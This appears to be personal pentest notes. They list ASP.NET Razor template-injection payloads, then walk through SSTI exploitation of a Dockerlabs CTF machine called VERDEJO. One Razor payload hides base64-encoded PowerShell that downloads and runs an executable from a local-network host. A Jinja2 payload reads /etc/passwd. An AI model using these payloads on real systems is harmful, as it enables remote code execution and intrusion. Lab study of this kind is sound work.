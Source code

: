 - `@( //C#Code )`
    
- `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
    
- `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`
    

The .NET `System.Diagnostics.Process.Start` method can be used to start any process on the server and thus create a webshell. You can find a vulnerable webapp example in [https://github.com/cnotin/RazorVulnerableApp](https://github.com/cnotin/RazorVulnerableApp)

**More information**

- [https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/)
    
- [https://www.schtech.co.uk/razor-pages-ssti-rce/](https://www.schtech.co.uk/razor-pages-ssti-rce/)
    

# CTF

We will be using Dockerlabs machine VERDEJO: https://mega.nz/file/ZasAgTpa#czwKDizDR0-eHGyzP8OG1VCj2od-Xzq0DWbFsTVXFWw
## Enumeration

![[Pasted image 20240916181317.png]]
Port 80 http service does not have anything interesting within it, but 8089 does, when we go in we find this:
![[Pasted image 20240916181531.png]]
If we try XSS on that we get this:
![[Pasted image 20240916181615.png]]
![[Pasted image 20240916181626.png]]
This page is vulnerable to XSS and also to SSTI, we know that by trying following payload:
`{{5*5}}`

![[Pasted image 20240916181817.png]]

## EXPLOITATION


After testing some payloads, we could use this:

`{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}`
![[Pasted image 20240916182013.png]]
